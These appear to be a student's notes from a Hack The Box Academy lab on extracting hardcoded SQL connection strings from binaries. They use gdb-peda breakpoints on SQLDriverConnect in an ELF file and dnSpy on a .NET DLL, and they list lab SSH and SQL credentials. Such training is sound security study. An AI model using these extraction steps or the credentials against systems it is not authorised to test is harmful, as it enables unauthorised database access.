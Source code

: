 # Attacking Applications Connecting to Services

Applications that are connected to services often include connection strings that can be leaked if they are not protected sufficiently.

## ELF Executable Examination

The octopus_checker binary is found on a remote machine during the testing :
./octopus_checker 

Program had started..
Attempting Connection 
Connecting ... 

The driver reported the following diagnostics whilst running SQLDriverConnect

01000:1:0:[unixODBC][Driver Manager]Can't open lib 'ODBC Driver 17 for SQL Server' : file not found
connected

--> The binary probably connects using a SQL connection string that contains credentials

https://github.com/longld/peda
gdb ./octopus_checker

--> Identify where the SQL parameters could be passed and add strategical breakpoints :

gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main

   0x0000555555555607 <+433>:	call   0x5555555551b0 <SQLDriverConnect@plt>


gdb-peda$ b *0x5555555551b0
gdb-peda$ run

Starting program: /htb/rollout/octopus_checker 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Program had started..
Attempting Connection 
[----------------------------------registers-----------------------------------]
RAX: 0x55555556c4f0 --> 0x4b5a ('ZK')
RBX: 0x0 
RCX: 0xfffffffd 
RDX: 0x7fffffffda70 ("DRIVER={ODBC Driver 17 for SQL Server};SERVER=localhost, 1401;UID=username;PWD=password;")
RSI: 0x0 
RDI: 0x55555556c4f0 --> 0x4b5a ('ZK')

<SNIP>

--> Try to reuse password

## DLL File Examination

The MultimasterAPI.dll binary is found on a remote machine during the enumeration process. Examination of the file reveals that this is a .Net assembly :

Get-FileMetaData .\MultimasterAPI.dll

<SNIP>
M .NETFramework,Version=v4.6.1 TFrameworkDisplayName.NET Framework 4.6.1    api/getColleagues        ! htt
p://localhost:8081*POST         Ò^         øJ  ø,  RSDSœ»¡ÍuqœK£"Y¿bˆ   C:\Users\Hazard\Desktop\Stuff\Multimast
<SNIP>

--> Use the debbuger and https://github.com/0xd4d/dnSpy

Inspection of MultimasterAPI.Controllers -> ColleagueController reveals a database connection string containing the password

## LAB

ssh htb-student@10.129.205.20
HTB_@cademy_stdnt!

./octopus_checker 
Program had started..
Attempting Connection 
Connecting ... 

The driver reported the following diagnostics whilst running SQLDriverConnect

01000:1:5701:[Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Changed database context to 'master'.
01000:2:5703:[Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Changed language setting to us_english.
connected

gdb ./octopus_checker
set disassembly-flavor intel
gdb-peda$ disas main

   0x0000000000001607 <+433>:	call   0x11b0 <SQLDriverConnect@plt>

gdb-peda$ b *0x11b0
Breakpoint 1 at 0x11b0
gdb-peda$ run
Starting program: /home/htb-student/octopus_checker 
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x11b0

--> Failed

Try in a different order :
gdb ./octopus_checker
gdb-peda$ b *0x11b0
gdb-peda$ run
gdb-peda$ set disassembly intel
gdb-peda$ type disas main


   0x0000555555555607 <+433>:	call   0x5555555551b0 <SQLDriverConnect@plt>


--> Exit and :

gdb-peda$ b *0x5555555551b0
Breakpoint 2 at 0x5555555551b0
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x11b0

gdb-peda$ run
Starting program: /home/htb-student/octopus_checker 
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x11b0

gdb-peda$ Aborted (core dumped)
htb-student@htb:~$ gdb ./octopus_checker

RDX: 0x7fffffffde40 ("DRIVER={ODBC Driver 17 for SQL Server};SERVER=localhost, 1401;UID=SA;PWD=N0tS3cr3t!;")


b *0x5555555551b0

SA:N0tS3cr3t!